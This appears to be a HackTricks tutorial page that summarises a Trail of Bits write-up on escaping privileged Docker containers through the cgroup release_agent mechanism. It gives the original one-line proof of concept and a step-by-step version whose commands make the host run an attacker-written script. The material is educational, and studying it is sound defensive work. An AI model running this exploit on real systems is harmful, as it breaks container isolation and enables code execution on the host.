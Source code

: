 # Docker release_agent cgroups escape

{{#include ../../../../banners/hacktricks-training.md}}

**For further details, refer to the** [**original blog post**](https://blog.trailofbits.com/2019/07/19/understanding-docker-container-escapes/)**.** This is just a summary:

Original PoC:

```shell
d=`dirname $(ls -x /s*/fs/c*/*/r* |head -n1)`
mkdir -p $d/w;echo 1 >$d/w/notify_on_release
t=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
touch /o; echo $t/c >$d/release_agent;echo "#!/bin/sh
$1 >$t/o" >/c;chmod +x /c;sh -c "echo 0 >$d/w/cgroup.procs";sleep 1;cat /o
```

The proof of concept (PoC) demonstrates a method to exploit cgroups by creating a `release_agent` file and triggering its invocation to execute arbitrary commands on the container host. Here's a breakdown of the steps involved:

1. **Prepare the Environment:**
   - A directory `/tmp/cgrp` is created to serve as a mount point for the cgroup.
   - The RDMA cgroup controller is mounted to this directory. In case of absence of the RDMA controller, it's suggested to use the `memory` cgroup controller as an alternative.

```shell
mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x
```

2. **Set Up the Child Cgroup:**
   - A child cgroup named "x" is created within the mounted cgroup directory.
   - Notifications are enabled for the "x" cgroup by writing 1 to its notify_on_release file.

```shell
echo 1 > /tmp/cgrp/x/notify_on_release
```

3. **Configure the Release Agent:**
   - The path of the container on the host is obtained from the /etc/mtab file.
   - The release_agent file of the cgroup is then configured to execute a script named /cmd located at the acquired host path.

```shell
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
echo "$host_path/cmd" > /tmp/cgrp/release_agent
```

4. **Create and Configure the /cmd Script:**
   - The /cmd script is created inside the container and is configured to execute ps aux, redirecting the output to a file named /output in the container. The full path of /output on the host is specified.

```shell
echo '#!/bin/sh' > /cmd
echo "ps aux > $host_path/output" >> /cmd
chmod a+x /cmd
```

5. **Trigger the Attack:**
   - A process is initiated within the "x" child cgroup and is immediately terminated.
   - This triggers the `release_agent` (the /cmd script), which executes ps aux on the host and writes the output to /output within the container.

```shell
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
```

{{#include ../../../../banners/hacktricks-training.md}}


